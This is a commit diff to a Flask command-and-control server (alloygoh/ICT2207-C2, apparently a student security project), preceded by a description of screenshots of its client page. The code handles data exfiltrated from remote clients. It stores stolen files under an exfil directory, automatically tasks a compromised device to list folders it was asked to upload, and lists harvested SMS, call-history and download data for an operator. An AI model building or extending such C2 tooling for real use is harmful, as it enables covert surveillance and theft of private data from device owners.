

Before and after one commit to alloygoh/ICT2207-C2, a Flask app: template templates/client.html in a window 1280 px wide. Shown: the part 1215-1764 px from the top of the page, without its empty margins (210-1280 px from the left). Run offline with Flask 2, Linux system fonts and the light colour scheme; the template is opened without the code that fills it: most values are stand-ins (such as "Sample title", 1, 10 or a date in 2020); some libraries are stand-ins or nearby versions.

Commit message:
fix: file listing for nested directories

```diff
--- a/app.py
+++ b/app.py
@@ -45,7 +45,6 @@ class Client:
         self.camera_stream_on = False
 
     def complete_task(self, data):
-
         client_id = self.id.hex().upper()
         print_debug(f"Completing task for {client_id}")
         if self.current_task.command_code == 0x0:
@@ -60,8 +59,11 @@ class Client:
             data = data[5:]
             success = self.current_task.callback(client_id, data)
 
-        if success:
+        if success == 1:
             self.current_task = None
+            return encrypt("success", self.key)
+        elif success == 2:
+            print_debug("RETASK")
             return encrypt("success", self.key)
         else:
             return encrypt("error", self.key)
@@ -103,9 +105,9 @@ clients: dict[str, Client] = {}
     put(10,CommandHandler::getLocation);
 """
 
+
 # Callback functions for client functions
 def save_to_disk(client_id, label, data):
-
     path = os.path.join(EXFIL_DATA_PATH, client_id, label)
     os.makedirs(path, exist_ok=True)
     file_name = os.path.join(path, datetime.now().strftime("%d-%m-%Y_%H-%M-%S"))
@@ -141,15 +143,28 @@ def file_listing_callback(client_id, data):
 
 
 def file_upload_callback(client_id, data, file_path):
-    file_dir, file_name = file_path.split(",")
-    path = os.path.join(EXFIL_DATA_PATH, client_id, file_dir)
-    os.makedirs(path, exist_ok=True)
-    file_name = os.path.join(path, file_name)
+    client = clients.get(client_id)
 
-    with open(file_name, "wb") as f:
-        f.write(data)
+    if data == b"im a directory":
+        # add a task to get the file listing if the requested file was a folder
+        file_path = "/".join(file_path.split(","))
+        print_debug(f"Detected folder: Getting listing for {file_path}")
+        command = Command(0x1, f"Get file listing: {file_path}", file_listing_callback)
+        task = Task(command, file_path)
+        client.current_task = task
+        client.file_listing_directory = file_path
 
-    return 1
+        return 2
+    else:
+        file_dir, file_name = file_path.split(",")
+        path = os.path.join(EXFIL_DATA_PATH, client_id, file_dir)
+        os.makedirs(path, exist_ok=True)
+        file_name = os.path.join(path, file_name)
+
+        with open(file_name, "wb") as f:
+            f.write(data)
+
+        return 1
 
 
 def display_stream_callback(client_id, data):
@@ -223,13 +238,15 @@ def generate_database_listing(client_id):
     database_listing = []
     if os.path.exists(client_data_path):
         for subdir in os.listdir(client_data_path):
+            # downloads, sms, call_history, etc
             subdir_full = os.path.join(client_data_path, subdir)
-            for log in os.listdir(subdir_full):
-                log_full_path = os.path.join(subdir_full, log)
-                log_full_path = os.path.abspath(log_full_path)
-                log_stats = os.stat(log_full_path)
-                entry = (subdir, log, log_stats.st_size, log_full_path)
-                database_listing.append(entry)
+            for root, dirs, files in os.walk(subdir_full):
+                for file in files:
+                    file_name = os.path.join(root, file)
+                    file_abs_path = os.path.abspath(file_name)
+                    file_size = os.stat(file_abs_path).st_size
+                    entry = (file_name, file_size, file_abs_path)
+                    database_listing.append(entry)
 
         return database_listing
 
@@ -237,7 +254,6 @@ def generate_database_listing(client_id):
 # tentatively receive data from exfil
 @app.route("/api/update", methods=["POST"])
 def recv_data():
-
     request_data = request.data
     client_id = request_data[0:8].decode()
     res = request_data[8:]
@@ -290,7 +306,6 @@ def provide_command():
 
 @app.route("/", methods=["GET", "POST"])
 def control_centre():
-
     task_count = 0
 
     for client in clients.values():
@@ -309,7 +324,6 @@ def download_log():
 # used to control individual clients
 @app.route("/client", methods=["GET"])
 def control_client():
-
     client_id = request.args.get("id")
     client = clients.get(client_id)
     command_code = request.args.get("cmd")
--- a/templates/client.html
+++ b/templates/client.html
@@ -142,8 +142,7 @@
                                     <table id="database" class="display" style="width:100%;">
                                         <thead>
                                             <tr>
-                                                <th>Log Type</th>
-                                                <th>Timestamp</th>
+                                                <th>File Name</th>
                                                 <th>Size</th>
                                                 <th></th>
                                             </tr>
@@ -153,9 +152,8 @@
                                             <tr>
                                                 <td>{{ entry[0] }}</td>
                                                 <td>{{ entry[1] }}</td>
-                                                <td>{{ entry[2] }}</td>
                                                 <td><a type="button" class="btn btn-primary"
-                                                        href="data?log={{ entry[3] }}"><i
+                                                        href="data?log={{ entry[2] }}"><i
                                                             class="fa fa-download"></i></a></td>
                                             </tr>
                                             {% endfor %}
```
